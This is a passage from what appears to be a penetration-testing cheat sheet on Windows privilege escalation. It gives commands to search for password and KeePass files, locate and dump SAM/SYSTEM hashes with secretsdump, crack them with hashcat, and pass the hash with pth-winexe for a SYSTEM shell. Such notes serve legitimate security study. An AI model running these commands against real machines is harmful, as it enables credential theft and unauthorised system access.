 ### SensitiveFiles

Searching sensitive files depends on the apps installed in the machine:
- recursive search for file names containing the string 'pass' or '.config' (current directory)
	- `dir /b /s *pass* == *.config*`
- recursive search for files containing a certain string (current directory)
	- `findstr /s /i /m /C:"<string>" *.*`
	- for line number in the file, remove `/m` and add `/n` and `/p`
- recursive search for `.xml`, `.ini` or `.txt` files containing the string 'password' (current directory)
	- `findstr /si password *.xml *.ini *.txt`
	- for line number in the file, remove `/m` and add `/n` and `/p`
- recursive search of *kdbx* files
	- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue`
- if XAMPP is installed, recursive search for `.txt` and `.ini` files in the installation directory
	- `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- "strings" command *windows-like*
	- `more < <FILE.exe> | findstr "."`

Enumeration:
- `winpeas.exe cmd searchfast filesinfo`

Beware of any username/password stored in the `unattend.xml` file.

### SAM

SAM file contains local users' hashes of password. These hashes are encrypted with a key that is located in SYSTEM file. The files are located in `C:\Windows\System32\Configig\`.

Backup of these files can be found in directories:
- `C:\Windows\Repair`
- `C:\Windows\System32\config\RegBack`
- to search for possible SAM backups
	- `cmd /c "dir /b /s SAM"` (`C:\Windows\SysWOW64\LogFiles\SAM` file is standard)

Let us assume that we can read the SAM and SYSTEM files.

Exploitation:
- file transfer to the attacking machine
- hashes extraction:
	- `python3 examples/secretsdump.py -sam </PATH/TO/SAM> -security </PATH/TO/SECURITY> -system </PATH/TO/SYSTEM> LOCAL`
- we have hashes. And now?
	- cracking with hashcat: `hashcat -m 1000 --force <hash NT admin user> </path/to/wordlist>`
	- [Pass The Hash](#PassTheHash)

### PassTheHash

If we can obtain the hashes of a user with elevated privileges, the best solution is to use them to have a privileged shell.

**Usage**: `pth-winexe --system -U '<user>%<hash LM>:<hash NT>' //<target IP> cmd.exe`

## ScheduledTasks
